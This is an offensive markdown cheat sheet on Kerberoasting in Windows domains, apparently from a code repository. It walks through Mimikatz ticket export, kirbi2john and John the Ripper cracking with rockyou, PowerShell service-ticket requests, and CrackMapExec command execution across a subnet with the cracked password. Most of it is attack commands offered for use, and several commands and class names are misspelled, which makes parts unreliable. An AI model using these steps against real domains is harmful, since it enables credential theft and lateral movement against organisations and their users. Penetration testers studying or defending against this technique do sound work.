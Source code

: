 Kerberoasting with mimikatz.md

## Kerberoasting

Kerberoasting is a technique used in post-exploitation where attackers request service ticket (TGS) for service accounts in windows domain. These service tickets are then cracked offline to extract the service account's plaintext hash or password. This can allow attackers to escalate privilages or perform further attacks.

---

### 1. Using Mimikatz for kerberoasting

First, ensure you have necessary privileges to run Mimikatz. the following Mimikatz commands help in listing and exporting kerberos tickets.

* Grant Debug privileges.

```bash
privilege::debug
```

* List Kerberos service tickets and export them to a file

```bash
kerberos::list /export
```

This will export the service tickets associated with the service accounts in the domain

---

### 2. Export Kerberos tickets for cracking

Once the service tickets are exported, you can use a tool like **kirbi2john** to convert the tickets into hash format suitable for cracking. this is done using the **John the Ripper** cracking tool

* Convert the kerberos tickets to a hash file using kirbi2john

```bash
kirbi2john filename > hash.txt
```

Now, you can use John the Ripper to attempt cracking the ticket hashes with a wordlist like rockyou.txt

* Crack the ticket hash using John The Ripper

```bash
john hash.txt --wordlist=rockyou.txt
```

For additional Functionality, you can check out [kerberoasrt Github Repository]() and [The ParrotSec Mimikatz Repository]()

---

### 3. PowerShell Script for Kerberoasting

You can automate the extraction of Service Principal Names (SPNs) and request service tickets using PowerShell scripts. Here's an example PowerShellscript.

* Get the Service Principal Names (SPNs)

```cmd
.\GetUserSPNs.ps1
```

* Add necessary assembly for Kerberos requestor security token

```powershell
Add-Type -AssemblyName System.IdentityModel
```

* Create a kerberos requestor security token for a specific service (e.g. MSSQL)

```poweshell
New-Object System.IdentityModel.Tokens.KerberoasRequestorSecurityToken -ArgumentList "MSSQL/armour.com:1443"
```

---

### 4. Export Kerberos Tickets using Mimikatz

If you are on a system with proper privileges, you can list and export kerberos tickets using Mimikatz 

* List and export kerberos tickets with Mimikatz.

```bash
kerberos::list /export
```

Once you have exported the tickets, you can convert it to a hash file using the following Python Script:

* Convert the ticket hash file using kirbi2john.py

```bash
python /usr/share/john/kirbi2john.py '<hash>' > MSSQLS
```

you can then attempt to crack the hash using **John The Ripper**

* Crack the ticket hash using John the Ripper

```bash
john MSSQLS --wordlist=/usr/share/wordlists/rockyou.txt
```

---

### 5. Cracking Result Example

After cracking the ticket, you may obtain the following results:

```bash
Password123 ($krb5tgs$unknown)
```

This indicates that the Password for the ``MSSQLSvc`` service account is ``Password123``

---

### 6. Using CrackMapExec for Remote Execution 

**CrackMapExec** (CME) is a tool used for executing commands on remote system via SMB. You can use CrackMapExec to check the status for Remote System or even execute commands like ``whoami`` on a compromised system.

Here's an example of using **CrackMapExec** to execute ``whoami`` command on a remote system

* Use CrackMapExec to execute the whoami command on a remote system

```bash
crackmapexec smb 192.168.29.1/24 -u sqlserver -p Password123 -x whoami
```

This command will attempt to execute ``whoami`` on the target machine using the provided credential (<username>:<Password>)